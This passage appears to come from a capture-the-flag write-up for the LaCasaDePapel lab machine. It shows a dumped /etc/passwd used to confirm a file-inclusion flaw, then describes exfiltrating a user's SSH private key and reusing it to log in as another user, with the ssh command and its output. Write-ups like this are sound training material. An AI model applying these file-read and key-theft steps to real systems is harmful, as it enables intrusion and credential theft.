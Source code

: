 ```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-disposition: attachment; filename=passwd
Content-Length: 1548
Date: Tue, 25 Jan 2022 18:25:59 GMT
Connection: close

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
chrony:x:100:101:chrony:/var/log/chrony:/sbin/nologin
dali:x:1000:1000:dali,,,:/home/dali:/usr/bin/psysh
berlin:x:1001:1001:berlin,,,:/home/berlin:/bin/ash
professor:x:1002:1002:professor,,,:/home/professor:/bin/ash
vsftp:x:101:21:vsftp:/var/lib/ftp:/sbin/nologin
memcached:x:102:102:memcached:/home/memcached:/sbin/nologin
```
So that's confirm that we have a LFI.  
Poking around on the server for private keys, we can find /home/berlin/.ssh/id_rsa, we can use the LFI to exfiltrate this key, since it seems like this process is running as user berlin.  
Unfortunately this key does not allow us to login as berlin, but if we do try this key for all this users we'll see that this key is valid for user 'professor'
```
[root@kali LaCasaDePapel ]$ ssh -i id_rsa_berlin -l professor $TARGET

 _             ____                  ____         ____                  _
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$
```
